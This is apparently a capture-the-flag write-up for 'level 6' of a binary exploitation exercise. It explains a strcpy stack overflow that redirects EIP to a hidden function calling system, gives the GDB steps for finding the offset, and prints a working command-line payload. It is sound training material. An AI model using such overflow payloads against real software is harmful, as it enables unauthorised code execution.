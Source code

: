 # LEVEL 6

## 💡 Explanation

In this level we have to:
1. Check the binary, as always! The main calls `strcpy` and then it calls the function `m`. Same as the in the level1, inside of the binary we can also find a function `n` which contains a call to `system` but it is not called on the main.
2. We are going to exploit the call to `strcpy` to place the address of the function `n` on the eip. It is a buffer overflow similar to the level1 but instead of exploiting a `gets` we will have to pass as an argument the string that is going to overflow.
3. To build the exploit we will have to find out what if the offset of the EIP and then place the address of `n`: [RANDOM CHARS UNTIL EIP][ADDRESS N]

## 👾 Commands

To find the solution:
```
[GDB] pattern create 200 => Stopped reason: SIGSEGV || <ADDRESS> in ?? ()
[GDB] patern offset <ADDRESS> => Gives the offset of EIP
[GDB] disas n
```

To execute the solution:
- `/home/user/level6/level6 $(python -c 'print "A"*72 + "\x54\x84\x04\x08"')`

## 🔍 Resources

- [Function C - strcpy](https://koor.fr/C/cstring/strcpy.wp)
- [Exploring Buffer Overflows in C, Part Two: The Exploit](https://www.tallan.com/blog/2019/04/04/exploring-buffer-overflows-in-c-part-two-the-exploit/)
- [Buffer Overflow using strcpy()](https://shankaraman.wordpress.com/tag/how-to-exploit-strcpy/)
